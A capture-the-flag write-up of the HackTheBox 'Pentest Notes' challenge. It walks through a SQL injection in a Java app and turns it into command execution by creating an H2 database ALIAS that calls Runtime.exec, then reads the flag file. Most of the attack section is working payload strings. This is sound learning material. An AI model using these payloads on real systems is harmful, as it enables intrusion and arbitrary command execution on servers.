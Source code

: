 ```yaml
---
title: Pentest Notes
tags:
  - HackTheBox
  - Challenge
  - Easy
  - SQLi
  - H2_Database
  - Command-Injection
---
```

![](Pasted%20image%2020241115171026.png)

I found the creds `user:123` in the source code. Analyzing the code I discovered a basic SQLi vulnerability:

```java
String query = String.format("Select * from notes where name ='%s' ", name);
```

If we put: `hello' OR 1=0 -- -` we've got it. I dumped all the tables, but didn't found anything, so I managed that might be something harder. Inspecting he source further I found that an H2 Java SQL database was in use:

```shell
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

So I searched for "*H2 database command injection through sqli*", and found [this article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
- I've created a note about it :D -> [H2 databases 🥁](/notes/h2_databases.md)

Basically, if I capture the petition with burp and **Do intercept** the petition I can modify the POST parameter and inject there an ALIAS:

- First I create the alias:

```sql
SQL Injection' or 1=0; CREATE ALIAS FUCKED AS '  
String execve(String cmd) throws java.io.IOException {  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");  
    return s.hasNext() ? s.next() : "";  
}';-- -
```

- Then I call it by inserting a command in the notes table (I spend two days to manage this out xd):

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('id')); --
```

- Then I performed a UNION SQLi to check if the command output was written to the table:

```shell
SQL Injection' OR 1=0 UNION SELECT * from notes -- -
```

![](Pasted%20image%2020241115172002.png)

> *BINGO, BANGO, BONGO!* We got this!

So we can check the `/` directory for the flag (it name is random):

![](Pasted%20image%2020241115172115.png)

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('ls /')); --
```

![](Pasted%20image%2020241115172158.png)

So in my case, the flag is called `JN8fe3XRqTYK_flag.txt`, so I cat it:

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('strings /JN8fe3XRqTYK_flag.txt')); -- -
```

> And got the flag!

![](Pasted%20image%2020241115172319.png)

==Challenge completed!==
